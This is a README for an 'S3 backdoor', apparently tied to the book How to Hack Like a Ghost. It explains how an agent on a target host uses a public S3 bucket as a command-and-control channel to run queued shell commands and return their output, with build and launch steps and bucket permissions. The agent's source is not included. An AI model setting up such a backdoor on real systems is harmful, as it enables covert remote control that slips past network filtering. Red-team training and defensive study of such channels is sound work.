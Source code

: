 # S3 backdoor
## Intro
This backdoor was featured in How to Hack Like a Ghost to bypass a network filtering policy. It uses S3 as a C2 channel to execute commands and retrieve the output.  
It is composed of an operator and an agent.

## Requirements
This backdoor requires a bucket with the permissions outlined the sample_policy.json filed. The agent on the target does not use AWS access keys, so it needs public GetObject over page_req.txt to read commands and public PutObject over page_resp.txt to send results.

The operator is running on your machine so you can give it full access over the bucket.

## Usage
Compile the agent:
```
$ make linux
```
Launch the agent on the target:
```
$ ./main -bucket <bucket_name>
```
Launch the operator on your machine:
```
$ pip install -r requirements.txt

$ python3 main.py
Queue in commands to be executed

shell> uname
Linux worker 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```
## TODO
Port the agent to Windows.

## Author
Sparc Flow - How to Hack Like a Ghost